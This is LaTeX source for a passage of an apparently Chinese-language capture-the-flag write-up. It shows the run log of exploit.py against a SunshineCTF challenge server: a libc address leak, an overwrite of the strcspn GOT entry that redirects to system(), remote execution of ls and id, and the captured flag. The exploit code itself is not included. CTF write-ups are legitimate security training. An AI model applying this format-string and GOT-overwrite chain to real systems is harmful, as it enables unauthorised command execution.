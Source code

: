 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{quote}
（\textbf{節錄}：實測輸出裡還有\textbf{一整段 \texttt{ls\ \allowbreak{}-\allowbreak{}la\ \allowbreak{}/}
的根目錄列表}，因為 \texttt{COMMANDS} 同時執行了 \texttt{ls\ \allowbreak{}-\allowbreak{}la\ \allowbreak{}/}。
完整紀錄在 \texttt{pwn3/\allowbreak{}remote\_\allowbreak{}run.\allowbreak{}log}。）
\end{quote}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py REMOTE
[*] mode      : REMOTE chal.sunshinectf.games:26002
[*] target libc: libc6_2.39-0ubuntu8.3 (Ubuntu 24.04)
[*] code probe @0x4010d0 = f30f1efa4154ba1f
[+] setvbuf@libc = 0x78d497ba3540   ->   libc base = 0x78d497b1b000
[*] &_IO_2_1_stdout_ = 0x78d497d1f5c0 (base+0x2045c0)
[+] system = 0x78d497b73740
[+] strcspn@got overwritten -> main() runs system(buf) on the next line
sun{cust0m_fmtstr_n0_t00ls_4ll0wed}
total 12
drwxr-xr-x 2 root root       4096 Sep 26 00:21 .
drwxr-xr-x 1 root root       4096 Sep 26 00:54 ..
-rw-r----- 1 root revolution   36 Sep 26 00:13 flag.txt
（… 這裡省略了 ls -la / 的內容 …）
uid=1337(revolution) gid=1337(revolution) groups=1337(revolution)
DONE

FLAG: sun{cust0m_fmtstr_n0_t00ls_4ll0wed}
\end{Verbatim}

（遠端在一行指令之後就不再有 \texttt{score\textgreater{}\allowbreak{}} ------ 行程
SIGSEGV，與 §9.2 的觀察一致。）

\paragraph{10.3 真實 flag}\label{ux771fux5be6-flag}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
sun{cust0m_fmtstr_n0_t00ls_4ll0wed}
\end{Verbatim}

（連續執行 4 次遠端，成功率 4/4。）

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{11.
常見坑（血淚筆記）}\label{ux5e38ux898bux5751ux8840ux6ddaux7b46ux8a18}
\end{document}
